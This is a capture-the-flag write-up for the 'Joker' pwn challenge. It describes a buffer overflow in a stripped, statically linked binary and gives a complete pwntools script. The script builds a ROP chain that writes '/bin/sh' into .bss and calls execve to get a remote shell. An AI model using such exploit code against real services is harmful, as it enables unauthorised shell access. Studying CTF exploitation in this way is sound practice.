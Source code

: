 # Joker - pwn

## Description

Classic.

----
Connect to the service with: `nc challenges.hackrocks.com 20002`

Found the seg fault place:
```bash=
Why did the packet cross the wire?
To get to the other port... XD
Did you like the joke? yes
Leave a review then!
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Review: Review received. Have a nice day! :)
zsh: segmentation fault  ./joker
```

main function
![](https://note.rootams.nl/pad/uploads/a549b3c1-cbed-4a65-ba80-36de6bdd6e78.png)

The binary has been statically linked, rendering ret2libc impossible. The binary has been stripped, so function names cant be read. The functions look like libc functions so with some analysis we can fill out most function names:


![](https://note.rootams.nl/pad/uploads/b8abb548-d314-45e4-baca-fb0852badcde.png)


# Approach
We can overflow the name and thereby also the review buffer and follow this up with a ropchain. If we inspect the ROPgadgets we can see we that we have the right gadgets to perform a ret2syscall. Since the binary does not contain a string for /bin/sh we need to somehow also write this into the binary using the ropchain. The rop chain is composed of 5 parts.

1. the padding
2. setting up the registers for read() into a writable section (.bss)
3. executing read (inputting the "/bin/sh")
4. setting up registers for syscall
5. making syscall and getting shell


The code looks as follows:

```python=
#!/usr/bin/env python3
from pwn import *



host = "challenges.hackrocks.com"
port = 20002
r = remote(host, port)


exe = './joker'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

pop_rax = 0x43d90c
pop_rdi = 0x401716
pop_rsi =0x406988
pop_rdx = 0x43cf95
syscall = 0x402354
read = 0x43cf80 #FUN_0043cf80 AKA read()
bss = elf.bss() #Any writeable area is good



offset = 102
payload = flat(
    b"e" * offset,
    #Setting up registers for read()
    pop_rdi,
    0x0,
    pop_rsi,
    bss,
    pop_rdx,
    0x8,
    pop_rax,
    bss,
    #executing read()
    read,
    #setting up register for syscall
    pop_rax, 59,
    pop_rdi, bss,
    pop_rsi, 0,
    pop_rdx, 0,
    #pwn
    syscall
)


r.readuntil("Did you like the joke? ")
r.sendline("yes")
r.readuntil("Name: ")
r.sendline(payload)
#reading /bin/sh into .bss
r.sendline("/bin/sh\x00")
#shell
r.interactive()
```
